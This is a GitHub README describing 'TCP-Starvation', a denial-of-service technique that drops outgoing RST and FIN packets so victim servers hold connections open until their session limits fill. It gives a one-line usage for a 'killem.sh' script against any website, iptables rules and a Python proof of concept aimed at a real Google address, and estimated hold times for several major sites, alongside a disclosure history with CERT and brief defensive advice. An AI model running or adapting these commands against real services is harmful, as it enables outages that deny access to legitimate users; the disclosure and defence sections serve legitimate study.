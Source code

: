 # TCP-Starvation

**Instructions:**
run `killem.sh <website>` and watch it burn

**Update from the other guy:** From comments throughout different communities, I've seen links to different articles describing the same issue as I do here. 
I understand this vulnerability that has existed for quite some time already (10y+), and by no means trying to take credit for them. 
Perhaps I used wrong search terms when looking for related articles, or just that they was located at page 42 on google. Either way, I still hope you enjoy the read and perhaps learn something useful.

I've also seen a lot of people mistake this for a SYN flood attack. This attack relies on a full connection, not half open. So SYN cookies won't help you.

Since this is a already know vulnerability with existing attacks/pocs, I've decided to upload a trimmed down version of the kittenzlauncher.py (ddos/waf evasion, proxy jumping, c2 mode - is removed).

<br> <br>
**Original:**

Some time ago, I found a design flaw/vulnerability which affects most TCP services and allows for a new variant of denial of service. 
This attack can multiply the efficiency of a traditional DoS by a large amount, depending on what the target and purpose may be.


The idea behind this attack is to close a TCP session on the attacker's side, while leaving it open for the
victim. Looping this will quickly fill up the victim’s session limit, effectively denying other users to
access the service.


This is possible by abusing RFC793, which lacks an exception if reset is not sent. 

    RFC793 page 36
    As a general rule, reset (RST) must be sent whenever a segment arrives
    which apparently is not intended for the current connection. A reset
    must not be sent if it is not clear that this is the case. 

<br>

What does this affect?
- Most services running on TCP
- Product handling TCP sessions such as:
  - Firewalls with session based policies
  - Routers and firewalls with NAT tables
  - Load balancers
  - and probably a lot more

<br>

## Proof of Concept
Connect to a device with root privileges and drop all outgoing RST and FIN packets towards the victim server.

    iptables -A OUTPUT -d 173.194.222.100 -p tcp --dport 80 --tcp-flags RST RST -j DROP
    iptables -A OUTPUT -d 173.194.222.100 -p tcp --dport 80 --tcp-flags FIN FIN -j DROP 

The python script below will close the TCP connection early, instead of waiting for a response.

    #/usr/bin/python
    import socket
    header = ('GET / HTTP/1.1\r\n'
              'Host: www.google.com\r\n'
              'Connection: keep-alive\r\n\r\n')
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.settimeout(5)
    s.connect(('173.194.222.100', 80))
    s.send(header)
    s.close() 

![Starvation test on on google.com](https://raw.githubusercontent.com/Eplox/TCP-Starvation/master/images/google.png))
<br>
![TCP life cycle network flow](https://raw.githubusercontent.com/Eplox/TCP-Starvation/master/images/tcp_flow.png)

By adding a "Connection: keep-alive" to http/https request, increases the session hold time to at least the keep-alive time specified by the server. 

The last packet from 173.194.222.100 is sent roughly 120 seconds after the attack occurred. 
In most cases, the attack lasts equal to the time between first and last packet received, plus the time between last and second last packet. <br>
This is because the server may not send out a "I'm done with you" packet at the end of it's FIN_WAIT1 state., something that can be confirmed by monitoring netstat during the attack on the victim side.<br>
So for google.com, I would expect the total attack duration per request would be: (127-10)+(127-97) = 147 rounded up to 150 seconds.

<br>

## Test on a few different protocols
    Protocol    Session Timeout     Software Version
    HTTP        320                 Apache httpd 2.4.27 (Linux ubuntu 4.13.0-21-generic)
    HTTPS       320                 Apache httpd 2.4.27 (Linux ubuntu 4.13.0-21-generic)
    SSH         195                 OpenSSH 7.5p1 (Linux ubuntu 4.13.0-21-generic)
    SMTP        310                 Postfix smtpd (Linux ubuntu 4.13.0-21-generic)

Timeout values seem to depend on the application itself, as well as the kernel values such as  https://www.kernel.org/doc/Documentation/networking/nf_conntrack-sysctl.txt<br>
Result may variate between different protocols, kernels and settings.

<br>

## Estimated TCP session timeout on a few popular sites
google.com: 150sec<br>
facebook.com: 200sec<br>
wikipedia.org: 90sec<br>
twitter.com: 1020sec<br>
reddit.com: 710sec

<br>

## And if you weaponize it?
https://www.youtube.com/watch?v=6rE0hMq6_gQ<br>
[![Youtube](https://img.youtube.com/vi/6rE0hMq6_gQ/0.jpg)](https://www.youtube.com/watch?v=6rE0hMq6_gQ)

<br>

## Disclosure
This vulnerability has been a real nightmare to disclose responsible. It could take several months before getting a reply with "TCP vulnerabilities are not within our scope.", or just no answers at all.
After multiple of disclosing attempts, I finally got in contact with EFF https://www.eff.org/security which pointed me in the right direction of CERT Coordination Center (CERT/CC) https://www.cert.org/, where the case was quickly handled with:

After analysis, we believe we have determined that this attack is a variant of a NAPTHA attack, CVE-2000-1039. We previously published an advisory on these types of attacks: <https://www.cert.org/historical/advisories/CA-2000-21.cfm> and a longer research report is available at <https://www.giac.org/paper/gsec/313/naptha-type-denial-of-service-attack/100899>.
<br><br>We're looking at updating the advisory to specify TCP RST packets too, but the problem in general appears to be a publicly known one. It's also unclear how the RFC could be updated to prevent this sort of attack in TCP.

<br>

## Q/A
**Q:** How do I defend myself?<br>
**A:** Defending yourself means you have to tweak the timeout and retransmission settings, this could affect users with poor connections in a negative way.<br>

**Q:** Will you release kittenzlauncher from that youtube video?<br>
**A:** Not planning to do so. Giving script kiddies a newb friendly attack tool with a ton of evasion and attack functionality would probably piss off more people than make others happy.
